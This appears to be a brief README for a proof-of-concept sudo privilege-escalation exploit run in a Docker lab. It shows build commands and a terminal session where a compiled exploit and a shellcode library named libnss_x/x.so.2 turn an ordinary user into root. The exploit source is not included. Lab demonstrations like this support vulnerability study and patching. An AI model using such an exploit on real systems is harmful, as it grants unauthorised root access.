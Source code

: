 # POC Sudo vulnerable

## Pasos

1. Build.
```bash 
docker build -t sudo_env .
```

2. Run.
```bash
docker run -it sudo_env
```

3. Exploit.
```bash
newuser@8c37d5a4c97f:~$ ls -l
total 4
drwxr-xr-x 1 newuser newuser 4096 May 18 00:57 exploit
newuser@8c37d5a4c97f:~/exploit$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
newuser@8c37d5a4c97f:~/exploit$ whoami
newuser
newuser@8c37d5a4c97f:~/exploit$ ./exploit
# whoami
root
```